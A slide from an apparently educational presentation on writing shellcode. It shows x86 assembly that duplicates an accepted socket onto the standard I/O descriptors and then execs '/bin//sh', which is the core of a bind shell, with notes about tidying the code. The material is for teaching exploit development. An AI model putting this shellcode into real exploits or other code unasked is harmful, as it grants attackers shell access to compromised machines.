

# The result
The added code duplicates this socket into the standard I/O file descriptors
0 = standard in
1 = standard out
2 = standard error
So when connections are accepted, these file descriptors are created, to handle /bin/sh for the socket.
can only handle one connection, then closes.

This is messy!
Lots of dup2 calls on the right
we need to clean this up
Branching control structures
; dup2(connected socket, {all three standard I/O file descriptors})
  mov ebx, eax      ; move socket FD in ebx
  push BYTE 0x3F    ; dup2  syscall #63
  pop eax
  xor ecx, ecx      ; ecx = 0 = standard input
  int 0x80          ; dup(c, 0)
  mov BYTE al, 0x3F ; dup2  syscall #63
  inc ecx           ; ecx = 1 = standard output
  int 0x80          ; dup(c, 1)
  mov BYTE al, 0x3F ; dup2  syscall #63
  inc ecx           ; ecx = 2 = standard error
  int 0x80          ; dup(c, 2)

; execve(const char *filename, char *const argv [], char *const envp[])
  mov BYTE al, 11   ; execve  syscall #11
  push edx          ; push some nulls for string termination
  push 0x68732f2f   ; push "//sh" to the stack
  push 0x6e69622f   ; push "/bin" to the stack
  mov ebx, esp      ; put the address of "/bin//sh" into ebx, via esp
  push edx          ; push 32-bit null terminator to stack
  mov edx, esp      ; this is an empty array for envp
  push ebx          ; push string addr to stack above null terminator
  mov ecx, esp      ; this is the argv array with string ptr
  int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])